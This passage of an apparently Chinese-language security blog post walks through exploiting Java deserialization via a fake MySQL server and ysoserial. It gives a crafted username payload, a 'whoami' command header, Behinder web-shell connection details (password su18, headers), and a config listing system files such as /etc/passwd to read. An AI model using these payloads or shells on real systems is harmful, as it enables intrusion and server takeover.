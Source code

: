 
但是在利用的时候遇到了点问题

![](https://gitee.com/fuli009/images/raw/master/public/20220929133344.png)

发现可能是将`' CommonsBeanutils1'`作为参数传入了`ysuserial.jar`一样的报错

![](https://gitee.com/fuli009/images/raw/master/public/20220929133346.png)

查看`fakeMySQL`端的完整命令

![](https://gitee.com/fuli009/images/raw/master/public/20220929133349.png)

去看server.py源码，发现这里是直接获取到`yso_type`参数传入`subprocess.Popen`函数

![](https://gitee.com/fuli009/images/raw/master/public/20220929133352.png)![](https://gitee.com/fuli009/images/raw/master/public/20220929133353.png)

对`subprocess.Popen`函数进行测试：

![](https://gitee.com/fuli009/images/raw/master/public/20220929133354.png)

就是这里参数的问题了，后续发现，可以将`-g
CommonsBeanutils1`变成`-gCommonsBeanutils1`，这样ysoserial也可以正常工作

这里将用户名改成`yso_-gCommonsBeanutils1_-p EX-TomcatEcho`就可以了(当然，`yso_-
gCommonsBeanutils1_-pEX-TomcatEcho`也可行)

`X-Token-Data: whoami`作为命令输入点

![](https://gitee.com/fuli009/images/raw/master/public/20220929133355.png)

得到了命令回显

当然，还可以使用`EX-MS-TSMSFromThread-bx`模块进行注入冰蝎马，即可链接 密码为`su18`请求头为:

    
    
    Referer: http://su18.org/  
    X-SSRF-TOKEN: bx  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220929133357.png)![](https://gitee.com/fuli009/images/raw/master/public/20220929133358.png)

也可以注入哥斯拉内存马等等，包括最近比较火的Upgrade内存马、Executor内存马、Websocket内存马等，作者都进行了更新，不过貌似没有完全利用，期待作者后续更新

# 0x05 附件:

  1. 假MYSQL服务器的配置如下 config.json

    
    
    {  
        "config":{  
            "ysoserialPath":"ysuserial.jar",  
            "javaBinPath":"/usr/local/java8231/jdk1.8.0_231/bin/java8231",  
            "fileOutputDir":"./fileOutput/",  
            "displayFileContentOnScreen":true,  
            "saveToFile":true  
        },  
            "fileread":{  
            "win_ini":"c:\\windows\\win.ini",  
            "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",  
            "win":"c:\\windows\\",  
            "win_1":"c:\\1.txt",  
            "linux_passwd":"/etc/passwd",  
            "linux_hosts":"/etc/hosts",  
            "index_php":"index.php",  
            "ssrf":"x.x.x.x",  
            "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]  
        },"yso":{  